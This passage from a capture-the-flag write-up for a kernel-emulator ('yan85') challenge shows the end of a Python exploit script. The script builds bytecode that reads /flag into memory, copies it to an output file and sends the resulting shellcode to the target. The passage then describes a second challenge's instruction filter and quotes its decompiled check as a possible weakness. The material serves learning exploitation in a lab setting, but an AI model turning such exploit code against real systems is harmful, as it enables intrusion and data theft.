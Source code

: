 ```python
    flag_addr = 0
    max_size = 0x80
    out_file_path = b'/home/hacker/OUT\x00'
    out_file_addr = max_size
    
    with open(out_file_path[:-1], 'wb') as f:
        pass

    yancode = b''
    # Store "flag" in mem[0]
    yancode += store_string(addr=flag_addr, string=flag_path)
    # open("/flag", O_RDONLY, 0)
    yancode += open_file(file_addr=flag_addr)
    # read(fd, &mem[0], 0x50)
    yancode += read_to_memory(fd=Regs.a, offset=flag_addr, count=max_size)

    # Store out filename in mem[0x80]
    yancode += store_string(addr=out_file_addr, string=out_file_path)
    yancode += open_file(file_addr=out_file_addr, flags=2)
    yancode += write_from_memory(fd=Regs.a, offset=flag_addr, count=max_size)

    yan_asm = ''
    for b in yancode:
        yan_asm += f'.byte {hex(b)}\n'
    
    log.info(SHELLCODE.format(yan_asm))
    user_shellcode = asm(SHELLCODE.format(yan_asm))
    with open('gdb_input.bin', 'wb') as f:
        f.write(user_shellcode)
    
    p.send(user_shellcode)
    p.recvuntil(b'Executing shellcode!\n')

    p.interactive()


if __name__ == '__main__':
    main()
```

## Challenge 2

Now, in addition to `mmap, ioctl`, the userspace program may also perform `fork`. \
The kernel module now contains dedicated `yan85_seccomp` implementation. Before executing every instruction, it's being passed through the filter. The filter checks that the instruction is of type `syscall`, and if so - checks if its requested syscall type is either `read_code` or `read_memory`. My previous exploit uses `read_memory` syscall, as it must read the file's content, hence - we must find a way to either bypass or to find a vuln within that seccomp implementation. \
The following is the exact check that the kernel module performs:

```c
v3 = &state->code[state->regs.i];
if (v3->op & SYSCALL && (LOBYTE(a3) = a3 & (READ_CODE | READ_MEM), (_BYTE)a3) )
{
    state->signal = -42;
}
```


[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html